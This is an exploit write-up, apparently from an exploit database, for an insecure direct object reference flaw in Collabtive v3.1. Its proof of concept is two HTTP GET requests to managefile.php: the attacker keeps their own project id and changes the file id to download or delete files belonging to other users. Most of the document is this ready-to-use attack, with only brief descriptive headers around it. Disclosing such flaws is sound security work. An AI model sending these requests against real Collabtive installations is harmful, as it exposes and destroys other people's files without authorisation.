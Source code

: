 # Exploit Title: Collabtive v3.1 - Insecure Direct Object Reference(IDOR)
## Date: 1/4/2024
## Vendor Homepage: https://github.com/philippK-de/Collabtive
## Tested on: Debian Linux, Apache, Mysql
## Vendor: philippK-de
## Version: v3.1
## Exploit Description:
## Collabtive v3.1 suffers from IDOR - Broken Access Control Vulnerability allowing attackers to download/delete the file that owned by other user(horizontal privilege escalation).

## ---------------------------------POC-----------------------------
```
GET /managefile.php?action=downloadfile&id=1(ATTACK'S PROJECT ID)&file=7(CHANGE HERE) HTTP/1.1
```
```
GET /managefile.php?action=delete&id=1(ATTACK'S PROJECT ID)&file=1(CHANGE HERE) HTTP/1.1
```